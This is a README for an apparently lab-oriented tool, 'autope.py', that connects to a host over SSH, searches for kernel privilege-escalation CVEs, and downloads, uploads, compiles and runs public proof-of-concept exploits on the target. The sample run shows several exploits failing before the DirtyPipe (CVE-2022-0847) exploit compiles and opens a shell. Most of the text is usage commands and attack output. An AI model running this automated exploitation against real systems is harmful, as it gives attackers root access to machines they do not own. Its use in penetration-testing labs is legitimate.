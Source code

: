 # Automated Privilege Escalation

## Installation
```bash
git clone https://github.com/Trickhish/automated_privilege_escalation       
cd automated_privilege_escalation     
pip install -r requirements.txt
```

## Use
`usage: python3 autope.py [-h] [--pwd PWD] [--pvk PVK] user@host`

examples:  
  - `python3 autope.py jessie@10.10.184.12 --pwd PaSsWoRd` Connecting to 10.10.184.12 as jessie with a password    
  - `python3 autope.py jessie@10.10.184.12 --pvk ~/.ssh/id_rsa` Connecting to 10.10.184.12 as jessie with a private key

## Run example

`python3 autope.py jessie@10.10.184.12 --pwd PaSsWoRd`

```
Connecting to jessie@10.10.184.12 with password

Checking local C support ✅

Checking languages support
  ✅ python supported
  ✅ c supported
  ❌ No support for go

🔎 Looking for exploits
Found 8 exploits
  🔎 Looking for a POC for CVE-2022-32250
  Found 2
    Trying 🇨-C https://github.com/theori-io/CVE-2022-32250-exploit
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed
    Trying 🇨-C https://github.com/ysanatomic/CVE-2022-32250-LPE
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed

  🔎 Looking for a POC for CVE-2022-2586
  Found 2
    Trying 🇨-C https://github.com/aels/CVE-2022-2586-LPE
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed
    Trying 🇨-C https://github.com/sniper404ghostxploit/CVE-2022-2586
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed

  🔎 Looking for a POC for CVE-2022-0847
  Found 8
    Trying 🇨-C https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - succeeded
      Running Shell

```

## Languages support :
- C
- Python
- Go

## To do :
- Add support for Perl
- Enhance script execution
